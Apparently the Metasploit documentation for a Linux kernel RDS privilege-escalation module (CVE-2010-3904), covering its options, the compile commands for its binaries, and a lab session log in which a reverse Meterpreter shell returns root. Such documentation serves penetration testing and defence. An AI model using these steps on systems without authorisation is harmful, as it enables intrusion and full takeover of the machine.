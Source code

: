 ## Description

  This module exploits a vulnerability in the `rds_page_copy_user` function
  in `net/rds/page.c` (RDS) in Linux kernel versions 2.6.30 to 2.6.36-rc8
  to execute code as `root` (CVE-2010-3904).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora 13 (i686) with kernel version 2.6.33.3-85.fc13.i686.PAE
  * Ubuntu 10.04 (x86_64) with kernel version 2.6.32-21-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/rds_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executables

The module makes use of two pre-compiled exploit executables (`rds.x86` and `rds.x64`),
to be use when `gcc` is not available on the target host for live compiling, or
`COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.xz):

```bash
./x86_64-linux-musl-gcc -o rds.x64 -pie -static rds.c
./i486-linux-musl-gcc -o rds.x86 -pie -static rds.c
```


## Scenarios

  ```
  msf5 > use exploit/linux/local/rds_rds_page_copy_user_priv_esc
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.zEAOL.c' (7282 bytes) ...
  [*] Writing '/tmp/.kBTWC7E' (237 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.149:40103) at 2018-05-03 08:52:59 -0400
  [+] Deleted /tmp/.zEAOL.c
  [+] Deleted /tmp/.zEAOL
  [+] Deleted /tmp/.kBTWC7E

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

